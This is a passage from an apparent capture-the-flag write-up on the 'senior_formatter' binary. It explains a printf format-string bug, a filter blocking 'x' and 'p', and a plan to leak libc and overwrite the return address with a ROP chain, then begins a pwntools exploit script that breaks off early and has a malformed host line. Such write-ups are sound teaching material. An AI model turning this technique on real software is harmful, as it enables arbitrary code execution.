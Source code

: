 The `locate_the_boss` function takes our input with read(0, buf, 0x32uLL) and then prints our input again with printf without a format string specifier.

#### alert_bad_characters

```c
char *__fastcall alert_bad_characters(const char *a1)
{
  char *result; // rax

  if ( strchr(a1, 'p') || (result = strchr(a1, 'x')) != 0LL )
  {
    puts("you shall not pass!");
    exit(1);
  }
  return result;
}
```

The `alert_bad_characters` function checks the input string and does not allow it to contain the characters 'x' or 'p'. If either of these characters is found in the input, the function prints 'you shall not pass!' and exits the program.

Since the binary has Position Independent Executable (PIE) enabled and Full Relro, we cannot overwrite the Global Offset Entry. However, we can overwrite the return address.

Firstly, we must obtain the libc's base address and the return address. Once we have obtained these addresses, we can build a ROP chain on the return address by using format string write to achieve arbitrary code execution.

#### POC

```python
#!/usr/bin/python
from pwn import *
exe = './senior_formatter'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc Connection: 52.59.124.14 503**2".split(" ")[1:
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()
libc = ELF('./libc6_2.35-0ubuntu3.6_amd64.so', checksec = 0)

def locate_boss(p: bytes):
	sla(b'>> ', b'2')
	sla(b'>> ', p)
	rud(b'input:\n')

```